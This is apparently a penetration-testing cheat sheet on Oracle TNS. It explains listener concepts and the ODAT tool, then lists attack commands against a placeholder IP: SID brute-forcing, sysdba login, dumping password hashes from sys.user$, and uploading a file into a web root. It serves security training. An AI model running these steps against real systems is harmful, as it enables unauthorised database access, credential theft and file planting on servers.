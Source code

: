# Oracle TNS

**The Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks.**. Default Oracle TNS port is TCP/1521, but can be easily changed. The configuration files for Oracle TNS are called tnsnames.ora and listener.ora and are typically located in the ORACLE\_HOME/network/admin directory. Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service. In Oracle RDBMS, a System Identifier (`SID`) is a unique name that identifies a particular database instance. It can have multiple instances, each with its own System ID. An instance is a set of processes and memory structures that interact to manage the database's data. When a client connects to an Oracle database, it specifies the database's SID along with its connection string. The client uses this SID to identify which database instance it wants to connect to

### PLSQL Exclusion List

Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE\_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution.

### ODAT

Oracle Database Attacking Tool (`ODAT`) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

### Tips2Hack

1. Nmap

```bash
sudo nmap -p1521 -sV 13.13.13.13 --open
```

2. Nmap - SID Bruteforcing

```bash
sudo nmap -p1521 -sV 13.13.13.13 --open --script oracle-sid-brute
```

3. ODAT

```bash
./odat.py all -s 13.13.13.13
```

4. SQLplus - Log In

```bash
sqlplus george/burger@13.13.13.13/XE
```

5. Oracle RDBMS - Interaction

```bash
SQL> select table_name from all_tables;
SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
GEORGE                          CONNECT                        NO  YES NO
GEORGE                          RESOURCE                       NO  YES NO
```

6. Oracle RDBMS - Database Enumeration

```bash
sqlplus george/burger@13.13.13.13/XE as sysdba
SQL> select * from user_role_privs;
-------------------------------------------------------------------------
USERNAME                       GRANTED_ROLE                   ADM DEF OS
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES
-------------------------------------------------------------------------
```

7. Oracle RDBMS - Extract Password Hashes

```bash
SQL> select name, password from sys.user$;
```

8. Oracle RDBMS - File Upload

```bash
./odat.py utlfile -s 13.13.13.13 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
curl -X GET http://13.13.13.13/testing.txt

Hello There Adventurer!
```

***
